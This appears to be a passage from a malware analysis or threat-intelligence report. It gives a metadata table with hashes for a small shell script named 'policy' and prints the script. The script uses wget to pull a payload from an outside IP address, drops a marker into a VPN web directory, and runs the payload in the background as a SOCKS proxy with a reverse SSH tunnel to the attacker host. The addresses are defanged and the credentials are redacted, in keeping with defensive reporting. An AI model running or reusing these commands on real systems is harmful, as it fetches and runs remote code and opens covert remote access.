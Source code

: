 <table><tbody style="appearance: none;outline: 0px;"><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Name(s)</span></p></td><td width="475" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">policy</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">Size</span></p></td><td width="475" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">388B (388 Bytes)</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">File Type</span></p></td><td width="475" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">text/x-shellscript</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">MD5</span></p></td><td width="475" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">b9f5e9db9eec8d1301026c443363cf6b</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA1</span></p></td><td width="475" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">d7a8d8303361ffd124cb64023095da08a262cab4</span></p></td></tr><tr style="appearance: none;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">SHA256</span></p></td><td width="475" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">fe07ca449e99827265ca95f9f56ec6543a4c5b712ed50038a9a153199e95a0b7</span></p></td></tr><tr style="appearance: none;outline: 0px;"><td width="185" style="appearance: none;padding: 0.5rem;vertical-align: top;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="appearance: none;font-weight: 700;font-size: 15px;">VirusTotal First Submitted</span></p></td><td width="475" style="appearance: none;padding: 0.5rem;vertical-align: top;outline: 0px;border-width: 0.1rem;border-color: rgb(132, 132, 137);"><p style="margin-bottom: 16px;margin-top: 16px;"><span style="font-size: 15px;">N/A</span></p></td></tr></tbody></table>  
```
#!/bin/bash
wget http://172.233.228[.]93/vpn_prot.gz -O /tmp/vpn_prot.gz
ls -l /tmp/vpn_prot.gz > /var/appweb/sslvpndocs/global-protect/u.css
gzip -d /tmp/vpn_prot.gz
chmod +x /tmp/vpn_prot
nohup /tmp/vpn_prot -L=socks5://127.0.0[.]1:8123 > /dev/null 2>&1 &
nohup /tmp/vpn_prot -L rtcp://127.0.0[.]1:8080/127.0.0[.]1:8123 -F ssh://user0:[password_redacted]@172.233.228[.]93:8443?ping=180 > /dev/null 2>&1 &
```  
  